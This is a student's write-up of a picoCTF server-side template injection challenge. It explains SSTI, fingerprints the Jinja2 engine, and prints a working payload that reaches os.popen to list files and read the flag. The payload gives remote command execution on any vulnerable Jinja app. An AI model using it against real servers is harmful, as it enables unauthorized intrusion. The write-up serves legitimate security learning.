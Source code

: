 ## today topic is about the SSTI
### this question is form the pico CTF
[picoCTF:](https://play.picoctf.org/practice)
![SSTI1:](pic/The_qz.png)
<br>
[jinja_doc](https://jinja.palletsprojects.com/en/stable/api/#jinja2.Template.render_async)
<br>
<br>

![homeqz](pic/home_qz.png)

what is the SSTI:
    A server-side template injection attack (SSTI) is when a threat actor exploits a template's native syntax and injects malicious payloads into the template. The compromised template is then executed server-side. -- from google
<br>
what we need to know is the ==template engine==.

Jinja2 for Python, Pug, Handlebars, and EJS for JavaScript/Node.js, JSP for Java and Twig for php.
<br>
by the way,A template engine is a software tool that combines templates with data to generate dynamic output, most commonly in the form of HTML for web pages.
<br>
When I into the web. I saw a bar for input the words and print out. and I just learn a little SSTI.
<br>
first one I try with the Freemaker -- java.

![freemaker](pic/tryWith_freemaker.png)

but It's not work...
<br>
SO I try with other Grammar. And It's works :D

```pyORphp

{{7*7}}

```

![jinjaORtwig](pic/jinjaOrTwig.png)
<br>

but now we have new problem. That is we don't know It's Jinja, twig or other engine. QwQ
<br>
I find around, Until I saw the Network. AwA

![jinja](pic/know_py.png)

<br>
I saw the sever is python, then this web 99% made of Jinja
<br>

I read The Jinja doc and search the command.

![doc](pic/read_doc.png)
<br>

Finally.

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() }}

```

<br>
the "self" is the start point. "_TemplateReference__context" is the that start with double underscores are mangled to include the class name. "cycler" is the tool for find the obj. Accessing an object’s "__init__" attribute yields the function object that constructs that type."__globals__" is for using the "os" last we use popen for run command. and read()
<br>

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

```

![findflag](pic/findFlag.png)

print the file

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![catflag](pic/catFlag.png)

and we found the flag :D
<br>

something want to say:
this one question it was kind a challenge for me, I have to learn the engine, read doc. But finally I did :D
<br>
I feel a litte pressure about the Scioly, Because I the Ell in school. have a good Conversation with team it's hard.
<br>
but
<br>
--船到桥头自然直
<br>
--everything will work out in the end


